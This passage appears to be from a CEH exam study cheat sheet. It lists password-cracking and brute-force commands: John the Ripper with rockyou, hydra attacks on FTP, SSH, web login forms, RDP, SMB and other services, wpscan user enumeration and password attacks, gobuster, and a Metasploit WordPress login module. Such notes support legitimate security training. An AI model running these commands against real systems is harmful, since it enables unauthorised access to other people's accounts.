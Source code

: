 ### John

**First analyze hash type**<br>
john hashfile.hash

**Then crack hash**
john hashfile.hash --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA1`<br>

**Show the cracked password**<br>
john --show --format=Raw-SHA1 hashfile.hash` OR `john --show hashfile.hash

### hydra

**FTP**: <br>
hydra -l user -P passlist.txt ftp://[host]<br>
hydra -L userlist.txt -P passlist.txt ftp://[host]
    
**SSH**: <br>
hydra -l <username> -P <full path to pass> [host] -t 4 ssh<br>

Post Web Form: <br>
hydra -l <username> -P <wordlist> [host] http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V<br>

- `hydra -L /root/Desktop/Wordlists/Usernames.txt -P /root/Desktop/Wordlists/Passwords.txt ftp://[host]`<br>
- `hydra -l root -P passwords.txt [-t 32] [host] ftp<br>
- `hydra -L usernames.txt -P pass.txt [host] mysql<br>
- `hydra -l USERNAME -P /path/to/passwords.txt -f [host] pop3 -V`<br>
- `hydra -V -f -L <userslist> -P <passwlist> rdp://[host]`<br>
- `hydra -P common-snmp-community-strings.txt target.com snmp<br>
- `hydra -l Administrator -P words.txt [host] smb t 1<br>
- `hydra -l root -P passwords.txt [host] ssh<br>

### wpscan

Wordpress site only Users Enumeration<br>
wpscan --url http://example.com/ceh --enumerate u<br>

Direct crack if we have user/password detail<br>
wpscan --url http://x.x.x.x/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt<br>
wpscan --url http://x.x.x.x:8080/CEH -u <user> -P ~/wordlists/password.txt<br>

## 7. Hacking WebServers & WebApps

**Directory Bruteforcing**<br>
gobuster dir -u [host] -w /home/attacker/Desktop/common.txt

**Enumerate a Web Application using WPscan & Metasploit**<br>
wpscan --url http://[host]:[port]/NEW --enumerate u  (u means username) <br>
Then type msfconsole to open metasploit. <br>
Type -  use auxilliary/scanner/http/wordpress_login_enum<br>
 						 show options<br>
						 set PASS_FILE /home/attacker/Desktop/Wordlist/password.txt<br>
						 set RHOSTS [host]  (target ip)<br>
						 set RPORT <pot>    (target port)<br>
						 set TARGETURI http://[host]:<pot>/<br>
						 set USERNAME admin
